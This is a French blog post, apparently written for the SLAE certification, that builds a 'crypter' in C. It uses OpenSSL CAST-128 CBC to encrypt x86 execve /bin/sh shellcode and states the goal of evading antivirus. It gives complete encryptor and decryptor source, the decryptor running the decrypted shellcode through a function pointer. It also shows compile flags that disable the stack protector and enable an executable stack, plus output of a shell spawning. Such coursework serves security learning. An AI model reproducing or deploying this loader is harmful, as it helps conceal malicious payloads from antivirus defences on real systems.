

# Assignment 7 #


## Intro ##

Dans ce dernier exercice, il est demandé de créer un "custom crypter" soit un chiffreur / déchiffreur basé sur un système de chiffrement de notre choix.  Le langage est libre et ce sera dans notre cas le C car il intègre de nombreuses libraires bien documentées.

Un crypter est un système permettant de chiffrer / dechiffrer un payload en s'appuyant sur un algorithme de chiffrement sysmétrique tel que AES, DES, ou asymétrique comme RSA.
L'idée est ,comme l'encodeur, de proposer un système d'évasion des antivirus.

## Crypter ##

Ceci n'étant pas forcement mon domaine de prédilection, j'ai donc cherché du coté des chiffrements symétriques type AES, et j'ai découvert plein de variantes telle que magenta, serpent ou bien CAST.

Je suis donc parti sur l'algorithme de chiffrement CAST-128 dont voici la documentation sur laquelle je me suis appuyé [https://fr.wikipedia.org/wiki/CAST-128](https://fr.wikipedia.org/wiki/CAST-128).

CAST-128 est donc un algorithme de chiffrement par bloc. On le retrouve dans certaines versions de PGP et GPG. Concu en 1996 par par Carlisle Adams et Stafford Tavares dont on doit le nom au premières lettres des 4 créateurs. Il se base sur un réseau de Feistel de 12 ou 16 tours avec un bloc de 64 bits. 

Le schéma ci-dessous illustre trois rondes en fonction des opérateurs possibles (addition, xor et soustraction).

<a href="../assets/images/CAST-128-large.png"></a>

Source "www.wikipedia.org"

CAST est disponible avec OpenSSL. Il s'agit dans un premier temps d'installer les libraries afin de pouvoir manipuler openssl. 

`sudo apt-get install libssl-dev`

La compilation se fera donc avec :

`gcc -fno-stack-protector -z execstack decrypt.c -o decrypt -lssl -lcrypto`


Le fichier cast.h nous informe sur les prototypes des fonctions :

Voici ce que nous allons utiliser, cast_cbc_encrypt permet de chiffrer et dechiffrer (en fonction de la valeur de enc). J'ai préféré cbc car il integre un IV ce qui augmente la sécurité du chiffrement.

```c

# define CAST_BLOCK      8
# define CAST_KEY_LENGTH 16

void CAST_set_key(CAST_KEY *key, int len, const unsigned char *data);
void CAST_cbc_encrypt(const unsigned char *in, unsigned char *out,
                      long length, const CAST_KEY *ks, unsigned char *iv,
                      int enc);

```

## Chiffrement ##

Le chiffrement s'appui sur une clé et sur un IV. La clé de 16 octets est à saisir lors de la création du chiffrement.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <openssl/cast.h>

void affichageVar(unsigned char* tab, int length, char *name);
void affichage(unsigned char* tab, int length, char* name);

int main(int argc, char *argv[])
{
    CAST_KEY key;

	if (argc < 2)
        {
		printf ("usage ./encrypt [key]\n");
		exit(1);
	}

    // We define here the key
    unsigned char key_data[CAST_KEY_LENGTH];
    
	if (strlen(argv[1]) != 16)
	{
		printf("Taille de le clé incorrecte");
		exit(1);
	}
    
	strcpy(key_data, argv[1]);	

    // We define the Interupt Vector
    // All const are defined in cast.h
    unsigned char iv[CAST_BLOCK];
    unsigned char iv_data[CAST_BLOCK] = {
        0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef
    };

    // Our original shellcode from assignment 6, exec /bin/sh
    unsigned char data[] = \
	"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

    // Round up the length to a multiple of 16 */
    int length  = (int)(strlen(data) + (CAST_BLOCK - 1)) & ~(CAST_BLOCK - 1);

    // temp array for the original shellcode
    // All values are set to 0 because length is a multiple of 16
    char*  temp = (char*) calloc(length, sizeof(char)); 
    
    // Dynamic memory to store the  output of OpenSSL's CAST CBC method
    char* crypt = (char*) malloc(sizeof(char) * length); 

	// Copy the IV data to the IV array
    memcpy(iv, iv_data, CAST_BLOCK);

    // Print IV & key 
    affichageVar(key_data, CAST_KEY_LENGTH, "Key");
    affichageVar(iv_data, CAST_BLOCK, "IV");

    // Copy original shellcode to heap to work with
    memcpy(temp, data, strlen(data));

    // Set the key 
    CAST_set_key(&key, CAST_KEY_LENGTH * 8, key_data);

    // encryption, store the encoded shellcode into crypt
    CAST_cbc_encrypt(temp, crypt, length, &key, iv, CAST_ENCRYPT);

    affichage(crypt, length, "crypted");    

    free(crypt);

    return 0;
}

void affichageVar(unsigned char* tab, int length, char* name)
{
	int i;
	printf("\n[+] %s: ", name);
	for (i = 0; i < length; i++)
        	printf("\\x%02x", *(tab+i));
	
}

void affichage(unsigned char* tab, int length, char* name)
{
        int i;
        printf("\n[+] %s Shellcode: ",name);
        for (i = 0; i < length; i++)
                printf("\\x%02x", *(tab+i));

	printf("\n");
}
```

Une fois cela fait, nous obtenons le shellcode chiffré. Nous le copions dans le fichier decrypt.c afin de procéder au déchiffrement puis execution du shellcode. 

## Déchiffrement ##

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <openssl/cast.h>

void affichageVar(unsigned char* tab, int length, char *name);
void affichage(unsigned char* tab, int length, char* name);
void exec(unsigned char* shellcode);

int main(int argc, char *argv[])
{
    CAST_KEY key;

    if (argc < 2)
    {
        printf ("usage ./decrypt [key]\n");
        exit(1);
    }

    // We define here the key
    unsigned char key_data[CAST_KEY_LENGTH]; 

    if (strlen(argv[1]) != 16)
    {
        printf("Taille de le clé incorrecte");
        exit(1);
    }
    strcpy(key_data, argv[1]);


    // We define the Interupt Vector
    unsigned char iv[CAST_BLOCK];
    unsigned char iv_data[CAST_BLOCK] = {
        0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef
    };

    
    unsigned char shellcode[] = \		"\x93\x13\xe1\xb2\x5e\x68\xd6\xfa\x71\x8a\x2b\x40\x92\x68\x0b\xf1\x3f\xc7\xba\x74\x4e\xfc\x1f\xcb\xbf\x05\xd8\x92\x3e\x78\x49\x34\x89\x0b\x96\x6f\x19\x48\x4a\xda";

	// Round up the length to a multiple of 16 */
    int length  = (int)(strlen(shellcode) + (CAST_BLOCK - 1)) & ~(CAST_BLOCK - 1);

    // temp array for the original shellcode
    // All values are set to 0 because length is a multiple of 16
    char* origin  = (char*) malloc(sizeof(char) * length); 

    // Copy the IV data to the IV array 
    memcpy(iv, iv_data, CAST_BLOCK);
    affichageVar(key_data, CAST_KEY_LENGTH, "Key");
    affichageVar(iv_data, CAST_BLOCK, "IV");

    // Set the key
    CAST_set_key(&key, CAST_KEY_LENGTH * 8, key_data);
    
    // decrypt, store the decrypted shellcode into origin
    CAST_cbc_encrypt(shellcode, origin, length, &key, iv, CAST_DECRYPT);

    affichage(origin, length, "decrypted");
    printf("\n[+] Shellcode executing ...");
	
    // Execute the decrypted shellcode
    exec(origin);

    return 0;
}

void affichageVar(unsigned char* tab, int length, char* name)
{
	int i;
	printf("\n[+] %s: ", name);
	for (i = 0; i < length; i++)
        	printf("\\x%02x", *(tab+i));
	
}

void affichage(unsigned char* tab, int length, char* name)
{
        int i;
        printf("\n[+] %s Shellcode: ",name);
        for (i = 0; i < length; i++)
                printf("\\x%02x", *(tab+i));

}

void exec(unsigned char* shellcode)
{
	printf("\n[+] Shellcode executing ...");
	  int (*ret)() = (int(*)())shellcode;
	  ret();

}
```


## Resultat ##

```c

./encrypt aaaazzzzeeeerrrr

[+] Key: \x61\x61\x61\x61\x7a\x7a\x7a\x7a\x65\x65\x65\x65\x72\x72\x72\x72
[+] IV: \xde\xad\xbe\xef\xde\xad\xbe\xef
[+] crypted Shellcode:
\x93\x13\xe1\xb2\x5e\x68\xd6\xfa\x71\x8a\x2b\x40\x92\x68\x0b\xf1\x3f\xc7\xba\x74\x4e\xfc\x1f\xcb\xbf\x05\xd8\x92\x3e\x78\x49\x34
+\x89\x0b\x96\x6f\x19\x48\x4a\xda

// we paste the crypted shellcode into decrypt.c
xophidia@xophidia-VirtualBox:~/Téléchargements$ vim decrypt.c
// then we compile
xophidia@xophidia-VirtualBox:~/Téléchargements$ gcc -fno-stack-protector -z execstack decrypt.c -o decrypt -lssl -lcrypto
// and execute

./decrypt aaaazzzzeeeerrrr

[+] Key: \x61\x61\x61\x61\x7a\x7a\x7a\x7a\x65\x65\x65\x65\x72\x72\x72\x72
[+] IV: \xde\xad\xbe\xef\xde\xad\xbe\xef
[+] decrypted Shellcode:
\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00\x00\x00\x00
[+] Shellcode executing ...
$

```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-3763